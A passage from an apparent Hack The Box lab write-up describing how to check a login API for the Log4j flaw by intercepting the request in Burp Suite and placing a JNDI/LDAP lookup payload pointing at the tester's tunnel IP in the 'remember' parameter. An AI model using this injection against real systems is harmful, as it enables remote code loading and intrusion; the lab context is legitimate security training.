 ```http
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

{"username":"asdf","password":"asdfas","remember":"<PAYLOAD>","strict":true}
```

## how to test it is vulnerable to log4j

I find a way easier method to test it in the `official walkthrough` that you can download. Does it mean I'm not trying it and just reading it? Well, if you have that perception. Here is the blog post talking about that.

![htb blog writeup is ok](htb-blog-writeup-is-ok.png "htb blog writeup is ok")

This [blog](https://www.hackthebox.com/blog/It-is-Okay-to-Use-Writeups) is written by two talented person [ippsec](https://twitter.com/ippsec) & [0xdf](https://twitter.com/0xdf)

Enough with all that, Let's test it. First I'm gonna fire up the `burpsuite` to `intercept` the `/api/login` endpoint. So, I can alter the request to be specific the `"remember"` parameter. Now, I need to put this payload :

```java
${jndi:ldap://Tun0 IP Address/test}
```

{{< admonition info >}}
**JNDI** (`Java Naming and Directory Interface API`). By making calls to this API, applications locate resources and other program objects. </br>
**LDAP** `(Lightweight Directory Access Protocol`) The default port that LDAP runs on is `port 389`.
{{< /admonition >}}

